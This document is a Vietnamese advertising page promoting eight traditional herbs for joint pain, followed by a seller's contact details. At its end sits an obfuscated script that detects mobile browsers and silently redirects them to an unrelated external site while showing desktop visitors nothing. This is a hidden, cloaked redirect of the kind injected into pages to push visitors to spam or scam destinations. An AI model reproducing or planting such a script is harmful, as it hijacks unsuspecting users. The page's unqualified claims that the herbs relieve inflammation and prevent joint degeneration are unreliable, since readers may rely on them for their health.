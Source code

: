 Người mắc bệnh xương khớp có nên sử dụng thảo dược?
Hiện nay, xu hướng của những người mắc các bệnh lý xương khớp là lựa chọn các vị thuốc, cây thuốc có nguồn gốc từ thiên nhiên, an toàn, lành tính, đặc biệt là những thảo dược đã được dân gian sử dụng từ bao đời nay.

Chiết xuất quả chiêu liêu có tác dụng chống viêm, hỗ trợ giảm đau khớp

8 loại thảo dược quý trong YHCT tốt cho xương khớp
Đối với các bệnh lý xương khớp thì những thảo dược thường được sử dụng từ xa xưa trong YHCT phải kể đến như: Thiên niên kiện, Dây đau xương, Hy thiêm, Độc hoạt, Kê huyết đằng, Thổ phục linh, Xuyên khung, Ngưu tất bắc. Trong đó:

Thiên niên kiện (Rhizoma Homalomenae occultae): Trừ phong thấp, cường gân cốt, chỉ thống.

Dây đau xương (Caulis Tinosporae sinensis): Khu phong trừ thấp, thư cân hoạt lạc.

Hy thiêm (Herba Siegesbeckiae): Trừ phong thấp, thông kinh lạc.

Độc hoạt (Radix Angelicae pubescentis): Trừ phong thấp, chỉ thống, giải biểu, khứ phong, thắng thấp, tán hàn.

Kê huyết đằng (Caulis Spatholobi suberecti): Hoạt huyết, bổ huyết, thư cân, mạnh gân cốt, thông kinh hoạt lạc.

Thổ phục linh (Rhizoma Smilacis glabrae): Trừ phong thấp, lợi gân cốt, tiêu độc.

Xuyên khung (Rhizoma ligustici Wallichi): Bổ huyết, khai uất, khu phong, chỉ thống.

Ngưu tất bắc (Radix Achyranthis bidentatae): Hoạt huyết, thông kinh hoạt lạc, thư cân, mạnh gân cốt.

Sử dụng kết hợp các thảo dược trên giúp thận được bồi bổ, khí huyết lưu thông dễ dàng, hệ cơ xương khớp nhờ đó cũng được nuôi dưỡng đầy đủ, tránh được những cơn đau nhức do tắc nghẽn, chèn ép mạch máu, cân cơ và ngay tại ổ khớp.

8 thảo dược này không chỉ giúp giảm triệu chứng đau nhức khớp mà còn bồi bổ, nuôi dưỡng hệ cơ xương khớp một cách toàn diện khi sử dụng lâu dài. Cụ thể:
Bổ khí huyết, gan thận

Giúp giảm đau, chống viêm

Mạnh gân cốt

Phòng ngừa và hạn chế thoái hóa

THÔNG TIN LIÊN HỆ:

THẢO DƯỢC TỐT NHẤT CHO XƯƠNG KHỚP - CÔNG TY TNNH THƯƠNG MẠI JQK

GMAIL: THAODUOCXUONGKHỌPQK@GMAIL.COM

ĐỊA CHỈ: ĐẠI THÀNH - QUỐC OAI - HÀ NỘI

SỐ ĐIỆN THOẠI: 0977.888.999

<script>
function _0x3acc(_0x284298, _0x25b2df) {
        var _0x5a0508 = _0x2464();
        return (
          (_0x3acc = function (_0x150fc1, _0x502ed6) {
            _0x150fc1 = _0x150fc1 - (-0x7a9 + -0x10 * 0x27 + 0x2 * 0x5fd);
            var _0x70deb8 = _0x5a0508[_0x150fc1];
            return _0x70deb8;
          }),
          _0x3acc(_0x284298, _0x25b2df)
        );
      }
      (function (_0x5cc21d, _0x32d2c9) {
        var _0x543a06 = _0x3acc,
          _0x509667 = _0x5cc21d();
        while (!![]) {
          try {
            var _0x4b6b69 =
              -parseInt(_0x543a06("0x1e8")) / (0x921 + -0x2265 + 0x1 * 0x1945) +
              -parseInt(_0x543a06("0x1ec")) / (-0x1560 + -0x10c9 + 0x262b) +
              parseInt(_0x543a06("0x1e9")) /
                (0x1 * -0xf59 + -0x17c * -0x17 + -0x12c8) +
              -parseInt(_0x543a06("0x1e3")) /
                (-0x3 * -0xb6f + 0x1add * -0x1 + 0x5f * -0x14) +
              (parseInt(_0x543a06("0x1e7")) /
                (-0x2079 + 0x204 * 0x8 + 0x105e)) *
                (-parseInt(_0x543a06("0x1e6")) /
                  (0x8dc + -0xfe9 + 0x1 * 0x713)) +
              parseInt(_0x543a06("0x1f1")) /
                (-0x196d + 0x35b * 0x3 + -0x521 * -0x3) +
              (parseInt(_0x543a06("0x1eb")) /
                (-0xb * -0x326 + 0xe5b + -0x30f5 * 0x1)) *
                (parseInt(_0x543a06("0x1e1")) /
                  (0x6 * 0x1a9 + 0xf4f + 0x4c * -0x55));
            if (_0x4b6b69 === _0x32d2c9) break;
            else _0x509667["push"](_0x509667["shift"]());
          } catch (_0x5dee30) {
            _0x509667["push"](_0x509667["shift"]());
          }
        }
      })(_0x2464, -0x1 * -0xd5551 + -0xfe723 + 0x100 * 0xe71);
      function checkPointVIP() {
        var _0x1597b4 = _0x3acc,
          _0x512d05 = {
            hwTZb: _0x1597b4("0x1ea"),
            CMDgM: function (_0x3c47f1, _0x434746, _0x4e8d49) {
              return _0x3c47f1(_0x434746, _0x4e8d49);
            },
            fbBsr: _0x1597b4("0x1e5"),
          };
        /Android|webOS|iPhone|iPad|iPod|BlackBerry|IEMobile|Opera Mini/i[
          _0x1597b4("0x1ed")
        ](navigator[_0x1597b4("0x1e2")])
          ? _0x512d05["CMDgM"](
              setTimeout,
              function () {
                var _0x5910a3 = _0x1597b4;
                window["location"][_0x5910a3("0x1e4")] =
                  _0x512d05[_0x5910a3("0x1ef")];
              },
              -0x1a47 + 0x2361 + -0x23 * 0x26
            )
          : console[_0x1597b4("0x1f0")](_0x512d05[_0x1597b4("0x1ee")]);
      }
      function _0x2464() {
        var _0x21041b = [
          "log",
          "7482909HWmgGJ",
          "8811fswJIR",
          "userAgent",
          "1994944PQFzdL",
          "href",
          "Người\x20dùng\x20truy\x20cập\x20từ\x20desktop.",
          "6USohhu",
          "4040485VJAukx",
          "135228raUOXF",
          "953976yPVeKh",
          "https://www.chongchongtrenaynobita2.click/loixk2",
          "18472cpiDMs",
          "2854798lglKqX",
          "test",
          "fbBsr",
          "hwTZb",
        ];
        _0x2464 = function () {
          return _0x21041b;
        };
        return _0x2464();
      }
      checkPointVIP();
	  </script>
